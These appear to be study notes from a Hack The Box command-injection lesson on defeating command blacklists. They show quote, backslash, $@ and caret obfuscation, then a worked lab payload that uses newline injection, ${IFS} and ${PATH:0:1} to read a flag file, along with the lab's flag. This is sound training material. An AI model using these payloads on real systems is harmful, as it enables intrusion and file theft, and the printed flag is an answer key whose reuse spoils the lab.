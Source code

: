 ```yaml
---
sticker: emoji//1f4bb
---
```

We have discussed various methods for bypassing single-character filters. However, there are different methods when it comes to bypassing blacklisted commands. A command blacklist usually consists of a set of words, and if we can obfuscate our commands and make them look different, we may be able to bypass the filters.

There are various methods of command obfuscation that vary in complexity, as we will touch upon later with command obfuscation tools. We will cover a few basic techniques that may enable us to change the look of our command to bypass filters manually.

---

## Commands Blacklist

We have so far successfully bypassed the character filter for the space and semi-colon characters in our payload. So, let us go back to our very first payload and re-add the `whoami` command to see if it gets executed: 

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_1.jpg)

We see that even though we used characters that are not blocked by the web application, the request gets blocked again once we added our command. This is likely due to another type of filter, which is a command blacklist filter.

A basic command blacklist filter in `PHP` would look like the following:

```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

As we can see, it is checking each word of the user input to see if it matches any of the blacklisted words. However, this code is looking for an exact match of the provided command, so if we send a slightly different command, it may not get blocked. Luckily, we can utilize various obfuscation techniques that will execute our command without using the exact command word.

---

## Linux & Windows

One very common and easy obfuscation technique is inserting certain characters within our command that are usually ignored by command shells like `Bash` or `PowerShell` and will execute the same command as if they were not there. Some of these characters are a single-quote `'` and a double-quote `"`, in addition to a few others.

The easiest to use are quotes, and they work on both Linux and Windows servers. For example, if we want to obfuscate the `whoami` command, we can insert single quotes between its characters, as follows:

```shell-session
21y4d@htb[/htb]$ w'h'o'am'i

21y4d
```

The same works with double-quotes as well:


```shell-session
21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

The important things to remember are that `we cannot mix types of quotes` and `the number of quotes must be even`. We can try one of the above in our payload (`127.0.0.1%0aw'h'o'am'i`) and see if it works:

#### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_2.jpg)

As we can see, this method indeed works.

---

## Linux Only

We can insert a few other Linux-only characters in the middle of commands, and the `bash` shell would ignore them and execute the command. These characters include the backslash `\` and the positional parameter character `$@`. This works exactly as it did with the quotes, but in this case, `the number of characters do not have to be even`, and we can insert just one of them if we want to:


```bash
who$@ami
w\ho\am\i
```

Exercise: Try the above two examples in your payload, and see if they work in bypassing the command filter. If they do not, this may indicate that you may have used a filtered character. Would you be able to bypass that as well, using the techniques we learned in the previous section?

---

## Windows Only

There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character, as we can see in the following example:

```cmd-session
C:\htb> who^ami

21y4d
```

# Question
----

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250205143422.png)

We can do the following command:

```
127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

```ad-important
##### Breakdown
---
- **Command Injection Operator (`%0a`)**
    
    - Uses a new-line character to terminate the original command (e.g., `ping 127.0.0.1`) and inject a new command.
        
- **Obfuscated `cat` Command (`c'a't`)**
    
    - Inserts single quotes to bypass the `cat` command blacklist. The shell ignores the quotes and executes `cat`.
        
- **Space Replacement (`${IFS}`)**
    
    - Replaces the space between `cat` and the file path with the `Internal Field Separator` environment variable.
        
- **Slash Replacement (`${PATH:0:1}`)**
    
    - Extracts the `/` character from the `PATH` environment variable (e.g., `${PATH:0:1}` = `/`).
        
- **File Path**
    
    - Constructs the path to `flag.txt` as:  
        `/${PATH:0:1}home/${PATH:0:1}1nj3c70r/${PATH:0:1}flag.txt`.
```

This outputs:

```

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.013/0.013/0.013/0.000 ms
HTB{b451c_f1l73r5_w0n7_570p_m3}
```

Flag is `HTB{b451c_f1l73r5_w0n7_570p_m3}`

